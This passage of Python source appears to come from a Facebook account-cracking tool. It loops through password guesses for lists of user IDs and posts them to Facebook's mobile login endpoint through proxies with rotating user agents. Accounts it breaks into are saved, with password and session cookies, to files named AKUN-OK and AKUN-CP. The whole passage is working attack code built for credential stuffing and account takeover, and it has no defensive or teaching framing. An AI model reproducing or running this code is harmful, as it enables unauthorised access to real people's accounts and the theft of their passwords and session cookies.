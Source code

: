 			heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&next=https%3A%2F%2Fm.facebook.com%2Fv2.3%2Fdialog%2Foauth%3Fapp_id%3D124024574287414%26cbt%3D1651658200978%26e2e%3D%257B%2522init%2522%253A1651658200978%257D%26sso%3Dchrome_custom_tab%26scope%3Demail%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D%26redirect_uri%3Dfbconnect%253A%252F%252Fcct.com.instathunder.app%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%252Cgranted_scopes%26return_scopes%3Dtrue%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D68f15bae-23f8-463c-8660-5cf1226d97f6%26tp%3Dunspecified&cancel_url=fbconnect%3A%2F%2Fcct.com.instathunder.app%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%25220_auth_logger_id%2522%253A%252268f15bae-23f8-463c-8660-5cf1226d97f6%2522%252C%25227_challenge%2522%253A%2522dahj28hqtietmhrgprpp%2522%252C%25223_method%2522%253A%2522custom_tab%2522%257D&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r└── {kun}{idf}|{pw}\n{xxx}└── {mer}{ua}{xxx}')
				os.popen('play-audio c.mp3')
				open('/sdcard/AKUN-CP/'+cph,'a').write(idf+'|'+pw+'\n')
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r└── {hijo}{idf}|{pw}|{kuki}\n{xxx}└── {hijo}{ua}{xxx}')
				os.popen('play-audio o.mp3')
				open('/sdcard/AKUN-OK/'+okh,'a').write(idf+'|'+pw+'|'+kuki+'\n')
				break
				
			else:
				continue
		except requests.exceptions.ConnectionError:
			waktu(31)
	loop+=1
###----------[ M.FB.2 ]----------###
def metod2(idf,pwv):
	global loop,ok,cp
	prog.update(des,description=f'\r[deep_white]{(loop)}/{len(id)}[/] [green]OK[/]:[green]{(ok)} [/]=[yellow] CP[/]:[yellow]{(cp)}')
	prog.advance(des)
	ua = random.choice(usragent)
	ses = requests.Session()
	for pw in pwv:
		try:
			if 'ya' in ualuh: ua = ualu[0]
			ses.headers.update({'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})